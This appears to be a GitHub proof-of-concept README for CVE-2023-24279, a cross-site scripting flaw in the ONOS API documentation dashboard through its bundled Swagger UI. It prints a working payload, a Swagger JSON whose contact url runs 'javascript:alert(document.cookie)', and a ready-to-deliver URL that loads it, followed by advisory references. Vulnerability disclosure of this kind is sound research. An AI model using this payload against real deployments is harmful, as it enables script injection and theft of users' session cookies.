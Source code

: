 # CVE-2023-24279

Description
------

A cross-site scripting (XSS) vulnerability in Open Networking Foundation ONOS from version v1.9.0 to v2.7.0 allows attackers to execute arbitrary web scripts or HTML via a crafted payload injected into the url parameter of the API documentation dashboard.

PoC
------

PoC for CVE-2023-24279: [@edoardottt Youtube video](https://www.youtube.com/watch?v=1mSXzzwcGMM)

Vulnerable endpoint: <http://localhost:8181/onos/v1/docs/>

Payload:

```json
{
  "swagger" : "2.0",
  "info" : {
    "version" : "1.0.100",
    "title" : "Swagger UI v2.2.10 XSS POC",
    "description" : "Swagger UI v2.2.10 XSS POC",
    "contact" : {
      "name" : "edoardottt",
      "url" : "javascript:alert(document.cookie)",
      "email" : "edoardott@gmail.com"
    },
  },
}
```

PoC URL ready to be delivered: <http://localhost:8181/onos/v1/docs/?url=https://gist.githubusercontent.com/edoardottt/197f4bc482eddb263c47b525268d1628/raw/49ad93f4e5832d6e6af5cf4f9962dd9bebf9f3c1/onos-xss-poc.json>

References
------

- <https://www.edoardoottavianelli.it/CVE-2023-24279>
- <https://nvd.nist.gov/vuln/detail/CVE-2023-24279>
- <https://cve.mitre.org/cgi-bin/cvename.cgi?name=CVE-2023-24279>
- <https://github.com/advisories/GHSA-3xmp-jwrr-8f4r>
- <https://www.tenable.com/cve/CVE-2023-24279>
- <https://www.opencve.io/cve/CVE-2023-24279>
- <https://avd.aquasec.com/nvd/2023/cve-2023-24279/>
- <https://cve.report/CVE-2023-24279>
- <https://security.snyk.io/vuln/SNYK-JAVA-ORGONOSPROJECT-5601105>

<br>

Useful links while researching for this CVE:

- <https://github.com/swagger-api/swagger-ui/pull/3848>
- <https://github.com/swagger-api/swagger-ui/issues/3847>
- <https://github.com/swagger-api/swagger-ui/commit/f87eaaa81073a61e30ff0cedee4fd9cd2dd1fca9>
- <https://github.com/swagger-api/swagger-ui/commit/f87eaaa81073a61e30ff0cedee4fd9cd2dd1fca9#diff-f510249cd192f2f011846a9640aebfd0c96995e744aa55e3b1c2e541da62a9ef>
- <https://security.snyk.io/vuln/npm:swagger-ui:20171031>
- <https://security.snyk.io/vuln/npm:swagger-ui:20160721>
- <https://security.snyk.io/vuln/npm:swagger-ui:20160901>
